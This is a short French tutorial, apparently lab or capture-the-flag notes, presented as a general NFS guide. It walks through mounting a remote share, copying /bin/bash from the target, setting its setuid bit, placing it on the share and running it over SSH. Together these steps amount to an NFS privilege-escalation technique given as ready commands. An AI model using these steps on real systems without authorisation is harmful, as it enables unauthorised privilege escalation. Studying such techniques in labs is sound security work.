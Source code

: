 # NFS

#### Tuto NFS (Network File System)

NFS (Network File System) est un protocole utilisé pour partager des fichiers et des répertoires entre différents systèmes sur un réseau. Voici un guide complet pour interagir avec des partages NFS.

***

**1. Découvrir les Partages NFS Disponibles**

Pour lister les partages disponibles sur une machine distante :

```bash
/usr/sbin/showmount -e [IP machine distante]
```

**Explication :**\
`showmount -e` affiche les répertoires exportés (partages NFS) disponibles sur la machine distante.

***

**2. Créer un Point de Montage**

Avant de monter un partage NFS, créez un répertoire local qui servira de point de montage :

```bash
mkdir /tmp/mount
```

**Explication :**\
Ce répertoire sera utilisé pour accéder au contenu partagé par le serveur NFS.

***

**3. Monter un Partage NFS**

Pour connecter un partage NFS à votre point de montage :

```bash
sudo mount -t nfs [IP machine distante]:[répertoire partagé] /tmp/mount -nolock
```

**Explication :**

* `-t nfs` : Indique que le système de fichiers est de type NFS.
* `[IP machine distante]:[répertoire partagé]` : Spécifie l’adresse IP du serveur et le répertoire partagé.
* `/tmp/mount` : Point de montage local sur votre machine.
* `-nolock` : Désactive le verrouillage des fichiers, utile pour éviter certains conflits avec NFS.

***

**4. Transférer des Fichiers via SCP**

Pour récupérer un fichier (comme un exécutable `bash`) depuis une machine distante :

```bash
scp -i id_rsa [utilisateur]@[IP distante]:/chemin/vers/fichier ~/Téléchargements/
```

**Exemple :**

```bash
scp -i id_rsa cappucino@10.10.72.89:/bin/bash ~/Downloads/bash
```

**Explication :**

* `scp` : Utilitaire de copie sécurisée.
* `-i id_rsa` : Utilise une clé privée pour s’authentifier.
* `[utilisateur]@[IP distante]:[chemin fichier]` : Spécifie la machine distante, l’utilisateur, et le fichier à récupérer.
* `~/Téléchargements/` : Chemin local où le fichier sera sauvegardé.

***

**5. Modifier les Droits sur le Fichier**

Pour définir le bit `suid` sur un fichier (ce qui permet d'exécuter le fichier avec les privilèges de son propriétaire) :

```bash
chmod +s bash
```

**Explication :**

* `+s` : Ajoute le bit `setuid`, permettant au fichier d’hériter des privilèges de l’utilisateur propriétaire.

***

**6. Déplacer le Fichier sur le Partage NFS**

Déplacez le fichier modifié vers le partage monté :

```bash
mv ~/Downloads/bash /tmp/mount/[utilisateur]
```

***

**7. Exécuter le Fichier sur la Machine Cible**

Reconnectez-vous à la machine distante en SSH et exécutez le fichier transféré :

```bash
ssh -i id_rsa [utilisateur]@[IP distante]
./bash
```

**Explication :**

* `ssh` : Accès à distance à la machine.
* `./bash` : Lance l’exécutable `bash` sur la machine distante avec les droits définis.

